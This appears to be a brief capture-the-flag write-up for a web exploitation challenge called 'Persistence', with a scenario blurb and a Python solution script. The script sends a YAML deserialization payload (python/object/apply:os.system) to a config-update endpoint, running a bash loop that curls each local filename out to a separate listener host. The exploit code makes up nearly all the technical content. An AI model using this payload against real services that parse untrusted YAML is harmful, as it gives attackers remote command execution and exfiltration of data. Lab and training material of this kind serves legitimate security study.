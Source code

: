 ```yaml
---
title: Persistence
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 60
solves: -1
flags: flag: THM{REDACTED}
---
```

> After the notorious malware strike on the Virelia Water Control Facility, phantom alerts and erratic sensor readings plague a system that was supposed to be fully remediated.
>
> As a Black Echo red-team specialist, you must penetrate the compromised portal, unravel its hidden persistence mechanism, and neutralise the backdoor before it can be reactivated.

---

```py
import requests

payload = (
    '!!python/object/apply:os.system ["bash -c '
    "'for i in $(ls); do curl http://10.17.37.98/$i; done'\"]"
)

headers = {"X-FTW": "secr3tFTW192d2390", "Content-Type": "application/x-yaml"}

res = requests.post(
    "http://10.10.232.80:8080/config/update", data=payload, headers=headers
)
print(res.status_code, res.text)
```
